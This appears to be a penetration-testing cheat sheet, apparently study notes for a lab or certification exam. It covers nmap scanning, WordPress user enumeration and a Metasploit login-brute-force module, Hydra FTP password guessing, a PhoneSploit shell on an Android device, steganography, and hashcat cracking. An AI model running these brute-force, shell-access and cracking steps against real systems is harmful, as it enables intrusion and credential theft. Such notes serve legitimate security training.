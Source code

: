 ### 1. Find the IP target.
 ```
  $ ip addr
  $ netdiscover
 ```
### 2. Nmap scan all
  $ nmap IP -sV -sC -p -O
  
### 3. IPs Service, RDP(3389), SQL(3306), FTP(21) check
 ```
  $ nmap -Pn -p 3389 IP | grep open
  $ nmap -Pn -p 3306 IP | grep open
  $ nmap -Pn -p 21 IP | grep open
  ```
### 4. Windows Comman Line
  $ Net user

### 5. Wordlist location find
 ```
  $ locate wordlists
  $ locae rockyou.txt
```
### 6. WP scan (Wp Vulnerability)
```
  $ wpscan --url IP --enumerate u
 
 => msfconsole 
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Pass.txt
set RHOSTs IP
set RPORT PORT
set TARGETURI http://IP:port
set USERNAME admin
->run
```
### 7. FTP Passowrd find
  $ hydra -l user -P passlist.txt ftp://IP

### 8. Prints the route that a packet takes to reach the host
  $ traceroute google.com

### 9. Android
```
  $ netdiscover -r IP/24   (got final IP)
  $ nmap -O IP
  
  apt install adb
  pip install colorama
  git clone https://github.com/aerosol-can/PhoneSploit
  cd PhoneSploit
  python3 phonesploit.py
  select 3 to connect new phone
  Add IP address of android device
  4 (Access shell on phone)
  IP address again of android device
  pwd > ls > cd sdcard > ls > cd downloads > cat file.txt
```
### 10. Stegography
  ```
  $ Snow.exe -C -p “given_password” file_name.txt  (Pass tu hobo = 'test')
  -C  compressing / uncompressing
  -p  password

  Open Stego (GUI tool):
     Open the exe > open and select file > click get
 ```
### 11. Cryptography
```
#### Identify:
https://hashes.com/en/tools/hash_identifier
https://www.onlinehashcrack.com/hash-identification.php
https://www.tunnelsup.com/hash-analyzer
#### Crak hash:
https://hashes.com/en/decrypt/hash
https://crackstation.net

  $ hash-identifier  ->Enter and paste the hash.
  $ Hashcat -a 3 -m 900 hash.txt /rockyou.txt
  $ haiti -e <crypto_hash>    (https://noraj.github.io/haiti/#/pages/usage)
  
  -a attack mode (3)
  -m hashtype (select number fom below)
   900 = md4
   1800 = SHA512CRYPT
   110  = SHA1 with SALT HASH
   0  = MD5
   100 = SHA1
   1400 = SHA256
  ``` 
## 12. Used Tools
```
Veracrypt
Cryptool
Snow
Bctextencoder
Md5 & sha1 checksum utility
Wpscan
Nmap
Metasploit
Hydra
Wireshark
Winscp
OWASP ZAP  
RDP
```
